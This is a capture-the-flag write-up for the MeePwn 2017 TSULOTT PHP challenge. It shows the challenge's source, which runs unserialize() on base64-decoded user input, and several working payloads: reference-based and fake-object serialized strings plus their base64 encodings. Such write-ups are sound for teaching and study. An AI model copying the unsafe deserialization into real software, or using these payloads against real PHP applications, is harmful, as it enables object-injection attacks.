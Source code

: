 #### First thing first: this is the php code, read it in raw



<?php
class Object 
{ 
  var $jackpot;
  var $enter; 
}
?>


<?php

include('secret.php');

if(isset($_GET['input']))  
{
  $obj = unserialize(base64_decode($_GET['input']));
  if($obj)
  {
    $obj->jackpot = rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99).' '.rand(10,99); 
    if($obj->enter === $obj->jackpot)
    {
      echo "<center><strong><font color='white'>CONGRATULATION! You Won JACKPOT PriZe !!! </font></strong></center>". "<br><center><strong><font color='white' size='20'>".$obj->jackpot."</font></strong></center>";
      echo "<br><center><strong><font color='green' size='25'>".$flag."</font></strong></center><br>";
      echo "<centerx><imgxx src=' ' /></center>";

    }
    else
    {
      echo "<br><br><center><strong><font color='white'>Wrong! True Six Numbers Are: </font></strong></center>". "<br><center><strong><font color='white' size='25'>".$obj->jackpot."</font></strong></center><br>";
    }
  }
  else
  {
    echo "<center><strong><font color='white'>- Something wrong, do not hack us please! -</font></strong></center>";
  }
}
else
{
  echo "";
}
?>
<center>
<br><h2><font color='yellow' size=8>-- TSU</font><font color='red' size=8>LOTT --</font></h2>
<p><p><font color='white'>Input your code to win jackpot!</font><p>
<form>
          <input type="text" name="input" /><p><p>
          <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<?php
if (isset($_GET['gen_code']) && !empty($_GET['gen_code']))
{
  $temp = new Object;
  $temp->enter=$_GET['gen_code'];
  $code=base64_encode(serialize($temp)); 
  echo '<center><font color=\'white\'>Here is your code, please use it to Lott: <strong>'.$code.'</strong></font></center>';
}
?>
<center>
<font color='white'>-----------------------------------------------------------------------------------------------------------------------------</font>
<h3><font color='white'>Take code</font></h3><p>
<p><font color='white'>Pick your six numbers (Ex: 15 02 94 11 88 76)</font><p>
<form>
      <input type="text" name="gen_code" maxlength="17" /><p><p>
      <button type="submit" name="btn-submit" value="go">send</button>
</form>
</center>
<!-- debug: GET is_debug=1 -->
<?php
if(isset($_GET['is_debug']) && $_GET['is_debug']==='1')
{
   show_source(__FILE__);
}
?>

### The important part is unserialize(base64_decode($_GET['input']));

### In The HTML, There will be 2 input: one is to serialize and the other is to unserilize it

- At first I was think about pointing the $obj->enter become $obj->jackpot, but it doesn't really work

- The second method would be create another serialize object outside **(fake object)** and make $obj->enter == $obj->jackpot


<?php
class Objects {
	var $jackpot;
	var $enter;

	function __construct() {
		$this->enter = &$this->jackpot;
	}
}
$input = new Objects();
echo base64_encode(serialize($input));
?>

### Some other way:
1. elegura.wolfe (english) (fake object way): https://advancedpersistentjest.com/2017/07/17/writeup-tsulott-meepwn/
2. clayday (english) (reference way): http://blog.clayday.id/tsulott-meepwn-ctf-2017-writeup/
3. foo-manroot (english) (dumping data via magic _destruct, but i think the author is wrong, its still compare null): https://foomanroot.github.io/post/ctf/meepwn/write-up/2017/09/28/meepwn-web.html
4. bl4ckpr15m (english) (compare null): https://github.com/bl4ckpr15m/CTF-Writeups/blob/master/2017/MeePwn/web/TSULOTT/writeup%20%5Bby%20Jorge%20Chato%5D.md 

#### 1.Fake object:
- An “object” class is also defined in the source code:

class Object 
{ 
 var $jackpot;
 var $enter; 
}

- The path to explotiation lies in creating a fake object, called something else (not “Object”, which seems to cause PHP to use it’s own class definition), which passes the “$obj->enter === $obj->jackpot” check, but doesn’t allow $obj->jackpot to be overwritten. Helpfully, PHP allows us to define “protected” properties, which cannot be modified, as per below:

class Test{
 protected $_data = array(
 "jackpot" => "12345"
 );
 var $enter;
}

#### 3. Cool way:

$ php -a
Interactive mode enabled

php > class Exploit
php > {
php {	function __destruct ()
php {	{
php {		var_dump ($flag);
php {	}
php { }
php > echo base64_encode (serialize (new Exploit ()));
PHP Notice:  Undefined variable: flag in php shell code on line 5
NULL
Tzo3OiJFeHBsb2l0IjowOnt9
php >

When we request /?input=Tzo3OiJFeHBsb2l0IjowOnt9, we get the flag:


#### 4.Just create a object, NULL is cool:
Our only chance is generate a completely random object and encoded with base64.
- [https://www.tools4noobs.com/online_php_functions/base64_encode/](https://www.tools4noobs.com/online_php_functions/base64_encode/)
- Generate a random object, in this case an object Test who have 2 attributes (jackpot and enter) both of them NULL
    ```json
        INPUT: O:4:"Test":2:{s:7:"jackpot";N;s:5:"enter";N;}
    ```
    ```json
        OUTPUT: "Tzo0OiJUZXN0IjoyOntzOjc6ImphY2twb3QiO047czo1OiJlbnRlciI7Tjt9"
    ```



